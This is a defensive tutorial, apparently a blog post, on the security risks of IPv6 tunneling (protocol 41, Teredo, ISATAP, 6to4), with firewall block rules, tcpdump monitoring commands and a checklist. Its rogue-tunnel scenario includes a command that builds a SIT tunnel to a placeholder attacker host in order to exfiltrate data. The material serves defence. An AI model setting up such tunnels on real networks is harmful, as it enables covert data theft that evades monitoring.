

# How to Understand the Security Risks of IPv6 Tunneling

Author: [nawazdhandala](https://www.github.com/nawazdhandala)

Tags: IPv6, Tunneling, Security, Firewall Bypass, Covert Channels

Description: Learn the security risks of IPv6 tunneling mechanisms including firewall bypass, inspection gaps, covert channels, and how to detect and prevent unauthorized tunnels.

## Overview

IPv6 tunneling mechanisms were designed to ease IPv4-to-IPv6 transition but they introduce significant security risks. IPv6-in-IPv4 tunnels can bypass IPv4 firewalls, evade IDS/IPS inspection, and create unintentional inbound attack surface. Many organizations have IPv4 security controls without corresponding IPv6 inspection of tunneled traffic.

## The Core Problem: Dual-Layer Inspection Gap

```text
Organization's security stack:

Layer 4:  Firewall (inspects IPv4 headers ✓)
Layer 3:  IDS (analyzes IPv4/TCP patterns ✓)
Layer 2:  DLP (scans IPv4 payload ✓)

IPv6 tunnel bypass:
  Attacker sends protocol 41 or UDP 3544 packets
  ├── IPv4 firewall: sees permitted proto 41 or UDP
  └── Inside the IPv4 packet: IPv6 content
      ├── IPv6 firewall: DOES NOT EXIST (no ip6tables rules)
      ├── IDS: does not inspect tunneled IPv6
      └── DLP: does not see IPv6 payload

Result: complete bypass of security infrastructure
```

## Firewall Bypass via Protocol 41

```text
Attacker scenario:
1. Attacker knows target network allows outbound HTTPS (port 443)
2. Attacker sets up IPv6 tunnel broker or their own SIT relay
3. Victim machine initiates 6in4 to attacker's relay (proto 41)
4. IPv4 firewall: allows proto 41 (not blocked)
5. IPv6 communication established over tunnel
6. C2 traffic flows via IPv6 - bypasses all IPv4 controls

Detection: tcpdump -i eth0 "proto 41"
Mitigation: iptables -A INPUT -p 41 -j DROP  (unless explicitly needed)
```

## Teredo - Bypasses NAT and Firewall

```text
Attack vector:
1. Host behind NAT/firewall - normally "protected" by NAT
2. Teredo UDP 3544 allowed (or attacker uses high UDP ports)
3. Teredo establishes IPv6 connectivity through NAT
4. Now host has reachable IPv6 address (2001::/32)
5. Attacker contacts host directly via IPv6 Teredo address
6. Inbound connection succeeds through "protected" NAT

Risk: NAT protection eliminated for any host running Teredo
```

## Covert Channel via Tunneling



IPv6 tunnels can carry data in a way that avoids DPI and logging:
- Traffic appears as normal IPv4 protocol 41 or UDP
- IPv6 content not logged or inspected
- C2 can use IPv6 addresses that aren't in threat intelligence feeds

## ISATAP Address Predictability

```text
Enterprise IPv4 range: 10.1.0.0/16
All ISATAP addresses: ::5efe:0a01:0000/112 (10.1.x.x)

Attacker can:
1. Predict all ISATAP addresses on the network
2. Send IPv6 packets to ::5efe:10.1.x.x
3. Scan the entire /112 in seconds
4. No need to discover IPv4 addresses first
```

## Rogue Tunnel Endpoint

An attacker inside the network creates unauthorized tunnels:

```text
Insider threat scenario:
1. Attacker has access to an internal Linux server
2. Creates 6in4 tunnel: ip tunnel add sit1 mode sit remote attacker.com local 10.1.1.5
3. Tunnel provides IPv6 path to attacker's infrastructure
4. Exfiltrates data via IPv6 (not logged in IPv4 flows)
5. IPv4 network monitoring shows nothing unusual

Detection: Audit ip tunnel show on all servers
Prevention: Block proto 41 outbound at perimeter
```

## 6to4 Relay Hijacking

```text
6to4 uses anycast relay 192.88.99.1
The anycast can be announced by anyone with BGP access

Attack (historical, 2010-2015):
1. Attacker announces 192.88.99.0/24 more specifically via BGP
2. Nearest clients route to attacker's relay
3. Attacker can MITM or drop IPv6 traffic
4. Clients experience intermittent IPv6 failures
```

## Mitigation: Block All Tunneling Protocols

```bash
# Block 6in4, 6to4, ISATAP, SIT (protocol 41)

iptables -A INPUT   -p 41 -j DROP
iptables -A OUTPUT  -p 41 -j DROP
iptables -A FORWARD -p 41 -j DROP

# Block Teredo (UDP 3544)
iptables -A INPUT   -p udp --dport 3544 -j DROP
iptables -A OUTPUT  -p udp --dport 3544 -j DROP

# Block GRE (unless explicitly needed)
iptables -A INPUT   -p gre -j DROP
iptables -A FORWARD -p gre -j DROP

# Block 6to4 anycast destination
iptables -A OUTPUT -d 192.88.99.0/24 -j DROP

# Block deprecated 6to4 prefix in IPv6
ip6tables -A FORWARD -s 2002::/16 -j DROP
ip6tables -A FORWARD -d 2002::/16 -j DROP
```

## Network Monitoring for Tunnels

```bash
# Monitor for protocol 41 traffic
tcpdump -i any "proto 41" -c 100 -n

# Monitor for Teredo (UDP 3544)
tcpdump -i any "udp port 3544" -c 100 -n

# Check for GRE
tcpdump -i any "proto gre" -c 100 -n

# NetFlow/IPFIX - filter for proto 41 flows
nfdump -r /var/cache/nfdump/nfcapd.current "proto 41"

# Alert: any proto 41 traffic should be investigated
# unless you have an explicit tunnel broker arrangement
```

## Security Checklist

| Control | Action |
|---|---|
| Block proto 41 at perimeter | `iptables -A INPUT/OUTPUT -p 41 -j DROP` |
| Block UDP 3544 (Teredo) | `iptables -A OUTPUT -p udp --dport 3544 -j DROP` |
| Block GRE unless authorized | `iptables -A INPUT -p gre -j DROP` |
| Disable Teredo on Windows | `netsh interface teredo set state disabled` |
| Disable 6to4 on Windows | `netsh interface 6to4 set state disabled` |
| Block `2002::/16` IPv6 prefix | `ip6tables -A FORWARD -s 2002::/16 -j DROP` |
| Audit all tunnel interfaces | `ip tunnel show` on all Linux hosts |
| Deploy IPv6 IDS/IPS | Ensure security tools inspect IPv6 payload |

## Summary

IPv6 tunneling creates security risks through firewall bypass (IPv4 security tools don't inspect tunneled IPv6 content), elimination of NAT protection (Teredo), address predictability (ISATAP), and covert channel creation. The primary mitigation is blocking IP protocol 41 (6in4, SIT, 6to4, ISATAP), UDP port 3544 (Teredo), and GRE (protocol 47) at all network borders unless explicitly authorized. Disable tunneling on endpoints (Teredo, 6to4, ISATAP on Windows) and monitor network flows for proto 41 traffic.
